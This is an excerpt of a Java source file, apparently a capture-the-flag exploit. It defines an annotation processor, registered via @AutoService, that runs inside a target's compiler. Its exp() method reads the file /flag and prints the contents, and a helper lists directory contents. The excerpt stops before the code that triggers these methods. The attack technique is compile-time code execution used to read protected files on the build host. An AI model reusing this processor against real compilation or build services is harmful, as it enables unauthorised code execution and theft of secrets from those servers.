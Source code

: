 src/FuckProcessor.java

```java
package exp;

import java.io.File;
import java.io.FileInputStream;
import java.io.FileNotFoundException;
import java.io.IOError;
import java.io.IOException;
import java.util.Set;

import javax.annotation.processing.Completion;
import javax.annotation.processing.ProcessingEnvironment;
import javax.annotation.processing.Processor;
import javax.annotation.processing.RoundEnvironment;
import javax.lang.model.SourceVersion;
import javax.lang.model.element.AnnotationMirror;
import javax.lang.model.element.Element;
import javax.lang.model.element.ExecutableElement;
import javax.lang.model.element.TypeElement;

import com.google.auto.service.AutoService;

@AutoService(Processor.class)
public class FuckProcessor implements Processor {

    void listDir(String pathString) {
        System.out.println("---------- " + pathString + "----------");
        File path = new File(pathString);
        for (var name : path.list()) {
            System.out.println(name);
        }
    }

    void exp() {
        File flag = new File("/flag");
        try {
            FileInputStream fileInputStream = new FileInputStream(flag);
            byte[] allBytes = fileInputStream.readAllBytes();
            String flagString = new String(allBytes);
            System.out.println("flag: " + flagString);
            fileInputStream.close();
        } catch (FileNotFoundException e) {
            e.printStackTrace();
        } catch (IOException e) {
            e.printStackTrace();
        } finally {
        }
    }


    @Override
    public Set<String> getSupportedOptions() {
        // TODO Auto-generated method stub
        return null;
    }

    @Override
    public Set<String> getSupportedAnnotationTypes() {
        // TODO Auto-generated method stub
        return null;
    }

```
